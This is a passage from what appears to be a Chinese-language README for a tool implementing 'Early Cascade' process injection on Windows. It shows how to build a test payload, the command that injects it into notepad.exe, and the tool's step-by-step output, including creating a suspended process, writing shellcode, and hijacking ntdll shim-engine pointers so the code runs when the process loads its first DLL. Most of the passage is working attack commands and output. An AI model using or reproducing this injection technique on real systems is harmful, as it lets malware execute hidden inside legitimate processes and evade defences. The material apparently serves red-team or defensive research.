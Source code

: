 ```bash
# 2 字节的无限循环：jmp $
printf '\xeb\xfe' > loop_payload.bin
```

### 3. 执行注入测试

```bash
cd build

# 使用无限循环 shellcode 测试（推荐）
./early_cascade.exe "C:\Windows\System32\notepad.exe" loop_payload.bin
```

**测试输出：**
```
===================================================================
Early Cascade Injection
Based on: github.com/Cracked5pider/earlycascade-injection
Reference: outflank.nl/blog/2024/10/15/early-cascade-injection/
===================================================================

[+] Payload loaded: 2 bytes

[*] Target Process: C:\Windows\System32\notepad.exe
[*] Payload Size: 2 bytes

[*] Step 1: Creating suspended process...
[+] Process created (PID: 13788)

[*] Step 2: Allocating remote memory...
[+] Remote memory allocated at: 0x00000288763B0000 (Size: 68 bytes)

[*] Step 3: Resolving ntdll.dll addresses...
[+] g_ShimsEnabled   : 0x00007FFB40534CF0
[+] g_pfnSE_DllLoaded: 0x00007FFB40549270

[*] Step 4: Preparing stub shellcode...
[+] Stub prepared with patched addresses

[*] Step 5: Writing stub and payload to remote process...
[+] Stub written (66 bytes)
[+] Payload written (2 bytes)

[*] Step 6: Enabling Shim Engine...
[+] g_ShimsEnabled set to TRUE

[*] Step 7: Setting DLL load callback...
[+] g_pfnSE_DllLoaded set to encoded stub address: 0x5152A800001446D8

[*] Step 8: Resuming process...
[+] Process resumed

===================================================================
[+] Early Cascade injection completed!
[+] When the process loads the first DLL, stub will execute
[+] Stub will disable shim engine and queue APC with payload
===================================================================

[*] Waiting 5 seconds to verify injection...
[+] Target process exited (Exit code: 0) - Payload executed!
[+] Verification file created: C:\Users\Public\early_cascade_verified.txt

[*] Press Enter to exit...
```
